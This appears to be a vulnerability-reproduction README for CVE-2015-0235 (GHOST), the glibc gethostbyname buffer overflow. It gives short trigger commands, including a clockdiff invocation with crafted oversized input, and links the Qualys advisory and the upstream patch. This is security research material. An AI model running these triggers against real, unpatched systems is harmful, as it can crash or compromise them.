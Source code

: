 # CVE-2015-0235

## Experiment Environment

Ubuntu 11.04
Fedora 14

## INSTALL & Configuration

Preinstalled Environment

## Problems in Installation & Configuration

## How to trigger vulnerability

### Method 1

```
gcc -o GHOST GHOST.c
./GHOST
```

### Metnod 2

```
sudo apt install iputils-clockdiff
/usr/sbin/clockdiff `python -c "print '0' * $((0x10000-16*1-2*4-1-4))"`
/usr/sbin/clockdiff `python -c "print '0' * $((0x20000-16*1-2*4-1-4))"`
```

## PoCs

[Qualys Security Advisory CVE-2015-0235 - GHOST: glibc gethostbyname buffer overflow](http://seclists.org/oss-sec/2015/q1/274)

## Vulnerability Details & Patch

### Root Cause

[Qualys Security Advisory CVE-2015-0235 - GHOST: glibc gethostbyname buffer overflow](http://seclists.org/oss-sec/2015/q1/274)

### Stack Trace

### Patch

[Upstream patch](https://sourceware.org/git/?p=glibc.git;a=commit;h=d5dd6189d506068ed11c8bfa1e1e9bffde04decd)

## References

<http://www.openwall.com/lists/oss-security/2015/01/27/9>

<http://seclists.org/fulldisclosure/2015/Jan/111>

